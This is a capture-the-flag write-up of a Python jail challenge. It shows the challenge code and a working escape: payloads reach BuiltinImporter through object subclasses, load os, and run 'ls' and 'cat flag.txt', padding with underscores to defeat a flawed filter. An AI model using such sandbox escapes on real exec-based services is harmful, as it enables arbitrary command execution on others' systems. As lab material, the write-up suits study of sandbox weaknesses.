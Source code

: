 The challenge provides you with the challenge.py
```python
#!/usr/bin/env python 

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

security_check = lambda s: any(c in blacklist for c in s) and s.count('_') < 50

def main():
    while True: 
        cmds = input("> ")
        if security_check(cmds):
            print("nope.")
        else:
            exec(cmds, {'__builtins__': None}, {})
    

if __name__ == "__main__":
    main()
```

The "security" lies in disabling the builtins and then allowing code execution.
However, this has proven to be insufficient several times, since you can reimport modules with some tricks and the execute all the python code you were able to execute before.
I found [this](https://stackoverflow.com/a/28100947) code to be especially helpful.

I modified it so it became:
`[klass for klass in ''.__class__.__base__.__subclasses__() if klass.__name__ == "BuiltinImporter"][0].load_module("os").system("ls")`

This, however fails because of the security check. For whatever reason, the securitycheck contains the condition `s.count('_') < 50` and thus adding enough underscores bypasses this restriction, e.g.
`[klass for klass in ''.__class__.__base__.__subclasses__() if klass.__name__ == "BuiltinImporter"][0].load_module("os").system("ls; echo __________________________________________________")`

returns
```
chall.py  flag.txt
__________________________________________________
```
(We already know from the dockerfile that the flag is called flag.txt but whatever)

and to read the flag

`[klass for klass in ''.__class__.__base__.__subclasses__() if klass.__name__ == "BuiltinImporter"][0].load_module("os").system("cat flag.txt; echo __________________________________________________")`

gives us the flag: `UDCTF{pyth0n_NFKC_t0_byp4ss_f1l1t3r}`
